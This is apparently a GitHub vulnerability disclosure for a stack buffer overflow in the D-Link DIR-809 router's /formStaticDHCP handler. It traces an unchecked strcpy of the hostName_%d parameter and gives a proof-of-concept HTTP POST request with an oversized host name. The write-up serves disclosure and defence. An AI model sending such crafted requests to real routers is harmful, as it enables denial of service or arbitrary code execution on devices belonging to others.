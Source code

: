 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formStaticDHCP` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_80034d60` ( page `/formStaticDHCP` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"hostName_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar1` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `acStack386`. 

![2021-05-10_09h14_38](README/2021-05-10_09h14_38.png)



## PoC

``` 
POST /formStaticDHCP.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 1718
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Basic/Network.asp?t=1620545775523
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=v2F31BZVGw
Connection: close

settingsChanged=0&hostName_0=12312312312312312313*0x200&host_ip_0=192.168.0.101&mac_0=3c22fb4473b4&computer_list_ipaddr_select_0=-1&hostName_1=&host_ip_1=&mac_1=&computer_list_ipaddr_select_1=-1&hostName_2=&host_ip_2=&mac_2=&computer_list_ipaddr_select_2=-1&hostName_3=&host_ip_3=&mac_3=&computer_list_ipaddr_select_3=-1&hostName_4=&host_ip_4=&mac_4=&computer_list_ipaddr_select_4=-1&hostName_5=&host_ip_5=&mac_5=&computer_list_ipaddr_select_5=-1&hostName_6=&host_ip_6=&mac_6=&computer_list_ipaddr_select_6=-1&hostName_7=&host_ip_7=&mac_7=&computer_list_ipaddr_select_7=-1&hostName_8=&host_ip_8=&mac_8=&computer_list_ipaddr_select_8=-1&hostName_9=&host_ip_9=&mac_9=&computer_list_ipaddr_select_9=-1&hostName_10=&host_ip_10=&mac_10=&computer_list_ipaddr_select_10=-1&hostName_11=&host_ip_11=&mac_11=&computer_list_ipaddr_select_11=-1&hostName_12=&host_ip_12=&mac_12=&computer_list_ipaddr_select_12=-1&hostName_13=&host_ip_13=&mac_13=&computer_list_ipaddr_select_13=-1&hostName_14=&host_ip_14=&mac_14=&computer_list_ipaddr_select_14=-1&hostName_15=&host_ip_15=&mac_15=&computer_list_ipaddr_select_15=-1&hostName_16=&host_ip_16=&mac_16=&computer_list_ipaddr_select_16=-1&hostName_17=&host_ip_17=&mac_17=&computer_list_ipaddr_select_17=-1&hostName_18=&host_ip_18=&mac_18=&computer_list_ipaddr_select_18=-1&hostName_19=&host_ip_19=&mac_19=&computer_list_ipaddr_select_19=-1&hostName_20=&host_ip_20=&mac_20=&computer_list_ipaddr_select_20=-1&hostName_21=&host_ip_21=&mac_21=&computer_list_ipaddr_select_21=-1&hostName_22=&host_ip_22=&mac_22=&computer_list_ipaddr_select_22=-1&hostName_23=&host_ip_23=&mac_23=&computer_list_ipaddr_select_23=-1&HNAP_AUTH=9ABC7566FEC3D4A69F750618F1E5EA86 1620545783&submit-url=%2FBasic%2FNetwork.asp
```





## Acknowledgment

Credit to  [@Yu3H0](https://github.com/Yu3H0/), [@peanuts62](https://github.com/peanuts62), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

